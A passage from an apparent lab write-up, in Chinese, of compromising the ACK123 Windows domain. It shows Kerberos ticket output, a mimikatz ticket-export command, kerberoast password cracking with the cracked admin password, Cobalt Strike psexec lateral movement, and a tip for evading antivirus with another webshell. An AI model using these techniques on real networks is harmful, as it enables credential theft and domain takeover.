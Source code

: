 ```
   Server Name       : cifs/16server-dc1.ack123.com @ ACK123.COM
   Client Name       : 12server-web2$ @ ACK123.COM
   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ; 

[00000004] - 0x00000017 - rc4_hmac_nt      
   Start/End/MaxRenew: 2022/6/26 18:35:23 ; 2022/6/27 4:24:32 ; 2022/7/3 18:24:32
   Server Name       : 12SERVER-WEB2$ @ ACK123.COM
   Client Name       : 12server-web2$ @ ACK123.COM
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ; 

[00000005] - 0x00000017 - rc4_hmac_nt      
   Start/End/MaxRenew: 2022/6/26 18:24:32 ; 2022/6/27 4:24:32 ; 2022/7/3 18:24:32
   Server Name       : ldap/16server-dc1.ack123.com/ACK123.COM @ ACK123.COM
   Client Name       : 12server-web2$ @ ACK123.COM
   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ; 

[00000006] - 0x00000017 - rc4_hmac_nt      
   Start/End/MaxRenew: 2021/8/27 13:26:48 ; 2021/8/27 19:55:24 ; 2021/9/3 9:55:24
   Server Name       : LDAP/16server-dc1.ack123.com @ ACK123.COM
   Client Name       : 12server-web2$ @ ACK123.COM
   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ; 
```

```
mimikatz kerberos::list /export
```

## 凭证爆破

使用[工具](https://github.com/nidem/kerberoast)爆破域管账号，最终得到域管密码：`P@55w0rd!`。

![21]({{ '/ack123/21.png' | prepend: site.url }})

## 哈希传递

新建一个 Payload 为 Beacon SMB 的监听，探测一下存活主机，然后存活主机右键->Jump->psexec64，填写之前获取到的凭据。

![23]({{ '/ack123/23.png' | prepend: site.url }})

![22]({{ '/ack123/22.png' | prepend: site.url }})

## 域控上线

![24]({{ '/ack123/24.png' | prepend: site.url }})

# 疑难解答

1. 上传webshell后执行命令时会被360拦截，可以尝试换大马，例如*icesword.aspx*。
